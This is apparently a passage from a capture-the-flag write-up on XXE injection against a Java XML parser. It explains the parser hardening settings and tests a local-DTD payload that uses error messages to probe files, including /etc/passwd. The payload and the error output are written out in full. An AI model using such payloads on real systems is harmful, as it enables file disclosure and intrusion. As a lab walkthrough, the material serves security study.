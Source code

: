 This line:
```java
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```

Will throw a fatal error if you use a `DOCTYPE` declaration in your XML.

And this one:
```java
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
```

Will not let you load `external DTDs`.

# XXE

## Focusing on `local DTD` files

Having tried some XXE payloads without success, I had another look at the given `Dockerfile`:

```docker
RUN find / -name "*.dtd" -type f -delete
```

The above line, which removes all `.dtd` files from the system, meant I was going to have a hard look at **`local DTD` XXE**.

By looking at the options using `local DTD` files in [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-with-local-dtd), I tried the first payload:

```dtd
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///abcxyz/">

    %local_dtd;
]>
<root></root>
```

And we actually get an answer!
```
java.io.FileNotFoundException: /abcxyz (No such file or directory)
	at java.io.FileInputStream.open0(Native Method)
	at java.io.FileInputStream.open(FileInputStream.java:195)
	at java.io.FileInputStream.<init>(FileInputStream.java:138)
	at java.io.FileInputStream.<init>(FileInputStream.java:93)
```

If we try with `/etc/passwd`, we have a different answer:

```
org.xml.sax.SAXParseException; systemId: file:///etc/passwd; lineNumber: 1; columnNumber: 1; The markup declarations contained or pointed to by the document type declaration must be well-formed.
```

Which means that this file exists!
